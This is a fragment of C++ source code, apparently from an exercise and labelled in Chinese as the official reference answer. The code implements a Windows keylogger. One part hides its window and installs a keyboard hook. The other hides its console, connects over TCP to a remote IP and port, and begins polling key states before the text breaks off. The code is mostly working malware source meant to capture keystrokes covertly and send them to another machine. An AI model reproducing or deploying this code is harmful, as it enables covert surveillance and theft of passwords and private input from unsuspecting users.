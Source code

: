 ```cpp
	}

	freeaddrinfo(result);

	if (ConnectSocket == INVALID_SOCKET) {
		printf("Unable to connect to server!\n");
		WSACleanup();
		return 1;
	}

	// visibility of window
	Stealth();

	// set the hook
	SetHook();

	// loop to keep the console application running.
	MSG msg;
	while (GetMessage(&msg, NULL, 0, 0))
	{
	}
}
```

### 官方给出的参考答案

```cpp
/* we use winsock utilities and we do not want the compiler to complain about older functionalities used since the below code is sufficient for our needs. */
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#pragma comment(lib, "Ws2_32.lib") /* we need the library Ws2_32.lib library in order to use sockets (networking) */
#include <iostream> /* standard input/output utilities */
#include <WinSock2.h> //networking utilities
#include <stdio.h> //standard input/output utilities
#include <stdlib.h> // standard input/output utilities
#include <Windows.h> // Windows libraries

int main()
{
	ShowWindow(GetConsoleWindow(), SW_HIDE);  // do not show (hide) this program window
	char KEY; // declare a variable for single key, of type char
	WSADATA wsaData; /* declaration of Structure (structure is a specific type of variable) holding information about windows socket implementation */
	SOCKET server; //variable used to store the connection, of type SOCKET
	SOCKADDR_IN addr; /* variable holding connection details - of SOCKADDR_IN type (also a structure) */
	WSAStartup(MAKEWORD(2, 0), &wsaData); /* initialize usage of the winsock library (needed for opening a network connection) */
	server = socket(AF_INET, SOCK_STREAM, 0); //set up a TCP socket
	addr.sin_addr.s_addr = inet_addr("192.168.248.129");
	addr.sin_family = AF_INET; /* set address family (AF) to AF_INET - this address family contains the IPv4 addresses to be used to communicateover TCP */
	addr.sin_port = htons(27015);
	connect(server, (SOCKADDR*)&addr, sizeof(addr)); /* connect to the previously set up target host/port */

	// Next we write the code that will responsible for collecting the pressed keys
	while (true) // do this forever
	{
		Sleep(10); // pause (Sleep) for 10 miliseconds
		for (int KEY = 0x8; KEY < 0xFF; KEY++) /* check if this is a printable key (key code are defined by Microsoft) */
```